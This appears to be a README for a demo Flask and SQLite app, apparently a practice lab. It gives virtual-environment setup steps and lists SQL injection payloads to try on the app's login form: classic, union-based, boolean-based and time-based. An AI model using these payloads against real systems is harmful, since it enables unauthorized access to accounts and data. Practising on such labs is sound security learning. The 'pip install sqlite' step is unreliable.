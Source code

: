 # Demo Project

This README provides step-by-step instructions for setting up a Python virtual environment across different operating systems. The guide also includes additional tips for working with Flask and SQLite.

## Table of Contents

1. [Setting Up a Virtual Environment](#setting-up-a-virtual-environment)
2. [Activating the Virtual Environment](#activating-the-virtual-environment)
3. [Working with Flask](#working-with-flask)
4. [Working with SQLite](#working-with-sqlite)
5. [Testing SQL Injections](#testing-sql-injections)

## Setting Up a Virtual Environment

### Windows

1. **Open Command Prompt**: Press `Windows + R`, type `cmd`, and hit Enter.
2. **Navigate to Project Directory**: Use the `cd` command to navigate to your project folder.
3. **Create Virtual Environment**:
   ```cmd
   python -m venv env
   ```

### macOS and Linux

1. **Open Terminal**: Open it from the Applications folder or search for it using Spotlight (`Cmd + Space`).
2. **Navigate to Project Directory**: Use the `cd` command to go to your project folder.
3. **Create Virtual Environment**:
   ```bash
   python3 -m venv env
   ```

## Activating the Virtual Environment

### Windows

1. **Activate Virtual Environment**:
   ```cmd
   .\env\Scripts\Activate
   ```

### macOS and Linux

1. **Activate Virtual Environment**:
   ```bash
   source env/bin/activate
   ```

## Working with Flask

1. **Install Flask**:
   ```bash
   pip install Flask
   ```
2. **Run Flask Application**:
   ```bash
   flask run
   ```

## Working with SQLite

1. **Install SQLite**:
   ```bash
   pip install sqlite
   ```
2. **Initialize Database**:
   ```bash
   python init_db.py
   ```

## Testing SQL Injections

### Classic SQL Injection

1. **Username**:

   ```bash
   ' OR '1'='1
   ```

2. **Password**:
   ```bash
   ' OR '1'='1
   ```

### Union-based SQL Injection

SQLite doesn't allow multiple statements in a single SQL query, which limits the types of UNION queries you can perform. However, you can still test basic UNION-based SQL injections.

1. **Username**:

   ```bash
   ' UNION SELECT NULL, 'a', 'b' --
   ```

2. **Password**:
   ```bash
   Leave it blank
   ```

### Boolean-based SQL Injection

1. **Username**:

   ```bash
   ' OR '1'='1
   ```

2. **Password**:
   ```bash
   ' OR '1'='2
   ```

### Time-based Blind SQL Injection

SQLite does not have built-in sleep functions, but for databases that do (like MySQL), you could use payloads like:

1. **Username**:

   ```bash
   ' OR IF('1'='1', sleep(10), 0) --
   ```

2. **Password**:
   ```bash
   Leave it blank
   ```
